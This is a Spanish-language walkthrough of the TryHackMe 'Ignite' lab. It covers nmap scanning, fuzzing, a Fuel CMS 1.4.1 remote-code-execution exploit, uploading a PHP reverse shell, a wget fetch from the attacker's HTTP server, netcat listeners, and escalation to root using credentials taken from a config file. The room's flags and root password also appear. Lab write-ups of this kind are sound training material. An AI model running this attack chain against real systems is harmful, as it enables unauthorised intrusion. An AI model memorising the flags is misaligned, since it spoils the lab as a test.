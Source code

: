 # Ignite 

https://tryhackme.com/room/ignite

## NMAP

Hacemos un escaneo con `nmap` para ver las versiones también.

```
nmap -sV 10.10.98.176
```

![[Pasted%20image%2020250204104650.png]]

Sólo escanea los puertos más comunes por defecto así que usamos la opción `-p-` para probar con todos.

Para detectar el SO y la versión del mismo usamos `-O`:

```
sudo nmap -sV -O 10.10.98.176
```
No nos da resultados y es algo normal que eso suceda.

También podemos modificar los tiempos entre los paquetes para que sea más difícil detectarlos. El modo 5 es el más agresivo y el 1 es el más "paranoico". Entre 3 y 4 es lo más normal y está en t3 por defecto.

```
sudo nmap -sV -O -T4 10.10.98.176
```

![[Pasted image 20250204105623.png]]

## Fuzzing 

Accedemos a la página web y usamos `DirBuster` para hacer fuzzing a la URL mientras seguimos inspeccionando el contenido de la página.

![[Pasted image 20250212170404.png]]

Descubrimos un login:

![[Pasted image 20250212170436.png]]

El fuzzing nos da los mismos resultados:

![[Pasted image 20250212170557.png]]

## /fuel/

Accedemos pues a `/fuel` y entramos con el usuario y contraseñas indicados.

![[Pasted image 20250212170659.png]]

Accedimos a un panel de administración del sitio web.

![[Pasted image 20250212170830.png]]

En la pestaña de `assets` podemos subir un archivo.

![[Pasted image 20250212172318.png]]

Nos aprovecharemos de esto ahora mismo.

## Reverse Shell

Usaremos la siguiente reverse shell de PHP:

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

La modificamos con la IP de la VPN de nuestro Kali y el puerto 4444:

![[Pasted image 20250212172546.png]]

La página sólo permite subir archivos .zip pero podemos hacer que se descompriman automáticamente al subirlos.



Ponemos en escucha el puerto 4444:

```
nc -lvnp 4444
```

## exploit-db

Buscamos la vulnerabilidad de "fuel CMS" y encontramos la de la versión 1.4.1 de Remote Code Execution.

![[Pasted image 20250212182655.png]]

Nos descargamos el exploit.

![[Pasted image 20250212182715.png]]

Lo ejecutamos con el siguiente comando y accedemos al sistema finalmente.

![[Pasted image 20250212182759.png]]

Aunque es una shell muy limitada actualmente, no nos permite hacer casi nada.

Buscamos pues una reverse shell de php.

![[Pasted image 20250220172524.png]]

Nos la descargamos y editamos unos parámetros. La IP es la de nuestro Kali en la VPN de Tryhackme, 10.8.3.33 y el puerto 5000.

![[Pasted image 20250220172721.png]]

Abrimos una consola de`netcat`en escucha para el puerto 5000.

```
nc -lvnp 5000 
```

![[Pasted image 20250220172838.png]]

También abrimos un servidor http con Python por el puerto 9000.

```
python3 -m http.server 9000
```

>IMPORTANTE: La reverse shell de php que vamos a utilizar tiene que estar en la misma carpeta desde la que abrimos el servidor de python.

![[Pasted image 20250220173032.png]]

Hacemos clic en "RAW" en la página de github de antes de la reverse shell de php y copiamos la URL. 

![[Pasted image 20250220173141.png]]

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Nos descargamos en el servidor la reverse shell que editamos.

```
wget http://10.8.3.33:9000/shell.php
```

![[Pasted image 20250220174600.png]]

![[Pasted image 20250220174621.png]]

Accedemos a la URL del archivo que hemos subido de php. La página se quedará cargando cuando se haya establecido la conexión.

![[Pasted image 20250220174734.png]]

En el puerto que abrimos en escucha con `netcat`hemos establecido la conexión.

![[Pasted image 20250220180034.png]]

Obtenemos la primera **flag**:

![[Pasted image 20250220180225.png]]

```
6470e394cbf6dab6a91682cc8585059b
```

## Escalada de privilegios

Ahora vamos a hacer una escalada de privilegios. Nos dirigimos a la siguiente ruta donde está la base de datos.

```
cd /var/www/html/fuel/application/config
```

Y mostramos el fichero `database.php`. En él están las credenciales del usuario `root`.

![[Pasted image 20250220180945.png]]

Hacemos más interactiva la terminal con el siguiente comando de python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Accedemos ahora si al usuario `root`.

```
su root
```

Y la contraseña es `mememe`.

![[Pasted image 20250220182137.png]]

Finalmente, obtenemos la última flag que se encuentra en la carpeta `root`y en el fichero `root.txt`.

![[Pasted image 20250220182314.png]]

```
b9bbcb33e11b80be759c4e844862482d
```





























